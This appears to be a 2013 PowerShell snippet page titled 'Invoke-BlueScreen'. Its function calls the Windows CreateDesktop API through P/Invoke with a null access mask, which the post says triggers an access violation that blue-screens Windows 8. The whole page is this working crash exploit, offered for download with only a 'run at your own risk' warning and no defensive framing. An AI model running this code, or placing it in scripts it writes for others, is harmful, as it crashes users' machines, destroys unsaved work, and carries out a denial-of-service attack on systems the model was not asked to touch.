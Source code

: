 ```yaml
---
pid:            4216
poster:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
format:         posh
parent:         0
parent:         0

---
```


# Invoke-BlueScreen

### [download](4216.ps1)

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
